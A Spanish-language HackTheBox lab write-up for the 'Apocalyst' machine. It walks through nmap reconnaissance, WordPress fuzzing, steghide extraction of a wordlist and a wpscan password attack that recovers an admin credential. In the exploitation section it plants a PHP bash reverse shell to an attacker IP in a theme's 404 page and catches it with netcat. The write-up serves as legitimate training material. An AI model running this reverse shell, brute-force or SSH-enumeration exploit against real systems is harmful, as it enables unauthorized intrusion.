









# WriteUp HackTheBox Apocalyst

[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar

## Descripción de la máquina



La resolución de la máquina presenta las siguiente fases:

* Reconocimiento
    * nmap
    * Wordpress Enumeration
    * SSH Enumeration
* Explotación
    * Information Leakage - User Enumeration con wpscan
    * WordPress Exploitation - Theme Editor (RCE)
* Escalada de privilegios
    * Abusing misconfigured permissions

## Fase de Reconocimiento

Se realiza una prueba de ping para confirmar que haya conexión con la máquina

> ping 10.10.10.46 -c1

```console
PING 10.10.10.46 (10.10.10.46) 56(84) bytes of data.
64 bytes from 10.10.10.46: icmp_seq=1 ttl=63 time=136 ms

--- 10.10.10.46 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 135.818/135.818/135.818/0.000 ms
```

Para identificar el sistema operativo usamos la utilidad proporcionada por S4vitar whichSystem.py[^1]

[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>

> whichSystem.py 10.10.10.46

```console
10.10.10.46 (ttl -> 63): Linux
```

Se realiza una revisión de puertos con nmap con las siguientes opciones

* -p-: Para realizar el escaneo en todos los 65000 puertos TCP
* --open: Para reportar solamente los puertos que se encuentran abiertos
* -sS: TCP SYN port scan, este argumento se utiliza para realizar un escaneo rapido de puertos
* --min-rate: El argumento le exige a nmap realizar el escaneo con una tasa de paquetes por segundo no menor a la solicitada
* -vvv: triple verbose para mostrar más información
* -n: para que no realice resolución dns en el scaneo
* -Pn: Desabilita el descubrimiento del host a traves de ping
* -oG: exporta lo reportado en un archivo en formato grepeable

> sudo nmap -p- --open -sS --min-rate 5000 -vvv -Pn 10.10.10.46 -oG allPorts

```console
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 09:39 -04
Initiating SYN Stealth Scan at 09:39
Scanning 10.10.10.46 [65535 ports]
Discovered open port 80/tcp on 10.10.10.46
Discovered open port 22/tcp on 10.10.10.46
Completed SYN Stealth Scan at 09:39, 13.50s elapsed (65535 total ports)
Nmap scan report for 10.10.10.46
Host is up, received user-set (0.14s latency).
Scanned at 2022-08-14 09:39:15 -04 for 14s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.65 seconds
           Raw packets sent: 66823 (2.940MB) | Rcvd: 66758 (2.670MB)
```

Por comodidad usamos la utilidad proporcionada por S4vitar extractPorts la cual nos ayuda a revisar el archivo creado por nmap 'all Ports' y nos copia los puertos en la clipboard para su posterior uso; se adjunta la utilidad a continuación

```console
extractPorts () {
        ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
        ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)"
        echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
        echo -e "\t[*] IP Address: $ip_address" >> extractPorts.tmp
        echo -e "\t[*] Open ports: $ports\n" >> extractPorts.tmp
        echo $ports | tr -d '\n' | xclip -sel clip
        echo -e "[*] Ports copied to clipboard\n" >> extractPorts.tmp
        /bin/bat extractPorts.tmp
        rm extractPorts.tmp

```
> extracPorts allPorts

```console
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.46
   5   │     [*] Open ports: 22,80
   6   │ 
   7   │ [*] Ports copied to clipboard
   8   │ 
```

Se realiza un nuevo escaneo con una serie de scripts básicos que nmap nos ofrece para ver las técnologias que corren por detrás

> nmap -sCV -pXXX  10.10.10.46 -oN targeted 

```console
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 09:41 -04
Nmap scan report for 10.10.10.46
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
|   256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
|_  256 12:12:cf:f1:7f:be:43:1f:d5:e6:6d:90:84:25:c8:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apocalypse Preparation Blog
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.18 seconds
```

Buscando unformación del launchpad de **OpenSSH 7.2p2 Ubuntu 4ubuntu2.2** vemos que nos enfrentamos a un Ubutu Xenial



> whatweb 10.10.10.46

```console
http://10.10.10.46 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.46], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Apocalypse Preparation Blog], UncommonHeaders[link], WordPress[4.8]
```

Si revisamos la página web en un navegador a través del link 'http://10.10.10.46' vemos que no carga completamente bien



Y al revisar el codigo fuente vemos que está buscando el dominio **apocalyst.htb** por tanto al ponerlo en el archivo **/etc/hosts** y revisar nuevamente la página 



Al ingresar a un Post observamos que se tiene un posible usuario llamado *Falarki*



Y si revisamos el wp-admin de wordpress vemos que *falarki* es un usuario valido de workpress



Revisamos si es posible realizar una enumeración de usuarios de wordpress con la siguiente petición

> curl -s -X GET "http://apocalyst.htb/wp-json/wp/v2/users/"

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /wp-json/wp/v2/users/ was not found on this server.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at apocalyst.htb Port 80</address>
</body></html>
```

Por otro lado con **searchexploit** vemos que existe un exploit para la versiön de *OpenSSH 7.2p2* que nos permite validar tanto que el usuario *root* y el usuario *falaraki* existen si unusuario existe:

> searchsploit  -m linux/remote/45939.py
>
> mv 45939.py exploits/ssh_enumeration.py

> python2 exploits/ssh_enumeration.py 10.10.10.46 root 2>/dev/null

```console
[+] root is a valid username
```

> python2 exploits/ssh_enumeration.py 10.10.10.46 falaraki 2>/dev/null

```console
[+] falaraki is a valid username
```

A continuación se realiza un fuzzeado al dominio *http://apocalyst.htb* de la siguiente manera:

[Parámetros de wfuzz]

* -c: opcion colorized, para que salga con colores
* -L: para que continue y redirija las redirecciones 3XX
* --hh=: para ocultar los resultados que en la columna *Char* tengan 150 Char (Caracteres)
* --hc=: para ocultar los codigos 404
* -t: para decir cuantos trends se habilitaran para hacer la busqueda
* -w: para determinar el diccionario que se usará

> wfuzz -c -L --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://apocalyst.htb/FUZZ

```console
...
000000340:   200        13 L     17 W       157 Ch      "post"                                                                                                                      
000000341:   200        13 L     17 W       157 Ch      "text"                                                                                                                      
000000431:   200        13 L     17 W       157 Ch      "start"                                                                                                                     
000000379:   200        13 L     17 W       157 Ch      "book"                                                                                                                      
000000394:   200        13 L     17 W       157 Ch      "art"                                                                                                                       
000000479:   200        13 L     17 W       157 Ch      "personal"                                                                                                                  
000000465:   200        13 L     17 W       157 Ch      "pictures"                                                                                                                  
000000444:   200        13 L     17 W       157 Ch      "icon"                                                                                                                      
...
```

Dado que tenemos varias respuestas que nos pasan la cantidad de caracteres 157 y al revisarlas todas nos dan el mismo resultado



Probamos ocultando los carácteres 157

> wfuzz -c -L --hh=157 --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://apocalyst.htb/FUZZ

```console
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000000241:   200        0 L      0 W        0 Ch        "wp-content"                                                                                                                
000000014:   200        397 L    4704 W     61496 Ch    "http://apocalyst.htb/"                                                                                                     
000000786:   200        200 L    2015 W     40841 Ch    "wp-includes"                                                                                                               
000007180:   200        69 L     205 W      2460 Ch     "wp-admin"                                                                                                                  
000045240:   200        397 L    4704 W     61496 Ch    "http://apocalyst.htb/"                                                                                                     
...
```

Dado que la busqueda por *fuzz* no dio resultados que nos puedan ser útiles, creamos un diccionario con *cewl* del contenido de la página principal del web server

> cewl -w content/diccionario.txt http://apocalyst.htb

Con este nuevo diccionario al fuzzearlo nos aparece un 

> wfuzz -c -L --hh=157 --hc=404 -t 200 -w content/diccionario.txt http://apocalyst.htb/FUZZ

```console
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://apocalyst.htb/FUZZ
Total requests: 532

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                     
=====================================================================

000000455:   200        14 L     20 W       175 Ch      "Rightiousness"                                                                                                             

Total time: 13.28212
Processed Requests: 532
Filtered Requests: 531
Requests/sec.: 40.05383
```

Revisamos la url http://apocalyst.htb/Rightiousness y observamos que tienen la misma imagen pero tiene 175 carácteres por lo que es posible que oculte algo en el interior.


Por tanto la descargamos y la movemos al directorio content para analizarla

> mv ~/Descargas/Firefox/image.jpg content

Analisamos la imagen con *exiftool* para ver los metadatos, sin embargo no se encuentra nada que podamos revisar en la imagen

> exiftool content/image.jpg

```console
ExifTool Version Number         : 12.16
File Name                       : image.jpg
Directory                       : content
File Size                       : 210 KiB
File Modification Date/Time     : 2022:08:14 18:46:53-04:00
File Access Date/Time           : 2022:08:14 18:46:53-04:00
File Inode Change Date/Time     : 2022:08:14 18:47:11-04:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Image Width                     : 1920
Image Height                    : 1080
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 1920x1080
Megapixels                      : 2.1
```

Revisamos si hay stenografía en el archivo con *steghide* y nos confirma que hay un archivo llamado *list.txt*

> steghide info content/image.jpg

```console
"image.jpg":
  formato: jpeg
  capacidad: 13,0 KB
�Intenta informarse sobre los datos adjuntos? (s/n) s
Anotar salvoconducto: 
  archivo adjunto "list.txt":
    tama�o: 3,6 KB
    encriptado: rijndael-128, cbc
    compactado: si
```

extraemos el archivo y lo movemos al directorio content

> steghide extract -sf content/image.jpg

```console
Anotar salvoconducto: 
anot� los datos extra�dos e/"list.txt".
❯ ls
 content   exploits   Images   nmap   scripts   list.txt   Readme.md
```

> mv list.txt content/list.txt

## Fase de Explotación

Con la utilidad *wpscan* observamos que podemos identificar el mismo usuario

> wpscan --url http://apocalyst.htb/ --enumerate u

```console
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.21
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://apocalyst.htb/ [10.10.10.46]
[+] Started: Sun Aug 14 19:08:40 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://apocalyst.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://apocalyst.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://apocalyst.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://apocalyst.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://apocalyst.htb/?feed=rss2, <generator>https://wordpress.org/?v=4.8</generator>
 |  - http://apocalyst.htb/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.8</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://apocalyst.htb/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-05-24T00:00:00.000Z
 | Readme: http://apocalyst.htb/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.0
 | Style URL: http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===============================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] falaraki
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Aug 14 19:08:45 2022
[+] Requests Done: 26
[+] Cached Requests: 40
[+] Data Sent: 6.601 KB
[+] Data Received: 244.663 KB
[+] Memory used: 176.027 MB
[+] Elapsed time: 00:00:05
```

Por tanto probamos un scaneo a Wordpress con la herramienta *wpscan* y la lista obtenida anteriormente con *steghide* y nos encuentra la siguiente combinación de usuarios que lo guardamos en *content/credentials*

* User: falaraki
* Pass: Transclisiation

> wpscan --url http://apocalyst.htb/ -U falaraki -P content/list.txt 

```console
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.21
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://apocalyst.htb/ [10.10.10.46]
[+] Started: Sun Aug 14 19:13:09 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://apocalyst.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://apocalyst.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://apocalyst.htb/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://apocalyst.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.8 identified (Insecure, released on 2017-06-08).
 | Found By: Rss Generator (Passive Detection)
 |  - http://apocalyst.htb/?feed=rss2, <generator>https://wordpress.org/?v=4.8</generator>
 |  - http://apocalyst.htb/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.8</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://apocalyst.htb/wp-content/themes/twentyseventeen/
 | Last Updated: 2022-05-24T00:00:00.000Z
 | Readme: http://apocalyst.htb/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.0
 | Style URL: http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://apocalyst.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8, Match: 'Version: 1.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <==============================================================================================================> (137 / 137) 100.00% Time: 00:00:03

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - falaraki / Transclisiation                                                                                                                                                       
Trying falaraki / total Time: 00:00:19 <=============================================                                                                     > (335 / 821) 40.80%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: falaraki, Password: Transclisiation

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Aug 14 19:13:36 2022
[+] Requests Done: 475
[+] Cached Requests: 38
[+] Data Sent: 147.999 KB
[+] Data Received: 1.241 MB
[+] Memory used: 244.285 MB
[+] Elapsed time: 00:00:27
```
Una vez que ingresamos vemos que el usuario falaraki es un usuario admin



Por tanto podemos configurar la pagina que nos devuelve el codigo 404 y añadir una reverse shell que apunte hacia nuestra IP en el codigo php

`system("bash -c 'bash -i >& /dev/tcp/10.10.14.8/443 0>&1'");`



Una vez modificado, en una terminal nos ponemos en escucha en el puerto 443 y en otra terminal realizamos una solicitud a la pagina 404.php y esto nos da acceso a la maquina

> sudo rlwrap nc -nlvp 443

> curl -s -X GET "http://apocalyst.htb/?p=404.php"

Una vez ingresamos, dado que no nos encontramos en una TTY realizamos los siguientes pasos para poder volver una TTY

> script /dev/null -c bas

Se presiona las teclas `ctrl` + `Z`

> stty raw -echo; fg

> reset xterm

